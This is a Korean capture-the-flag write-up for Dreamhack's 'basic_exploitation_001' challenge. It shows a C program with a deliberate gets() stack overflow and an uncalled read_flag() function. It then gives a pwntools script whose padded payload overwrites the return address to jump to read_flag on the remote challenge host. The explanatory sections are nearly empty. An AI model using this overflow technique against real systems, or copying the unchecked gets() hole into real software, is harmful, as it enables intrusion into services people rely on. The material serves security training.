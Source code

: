 # 목차
1. 파일 분석

1.1. 코드 분석

1.2. 실행 파일 분석

2. 문제 풀이 코드



# **1. 파일 분석**

```
// basic_exploitation_001.c //

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


void read_flag() {
    system("cat /flag");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    gets(buf);

    return 0;
}
```
1.1. 코드 분석


# **2. 문제 풀이 코드**

```
from pwn import *

payload = b'\x90'*128 + b'\x90'*4 + b'\xb9\x85\x04\x08' #buf + fsp + read_flag()

r = remote('host3.dreamhack.games', 12515)

r.send(payload)

r.interactive()
```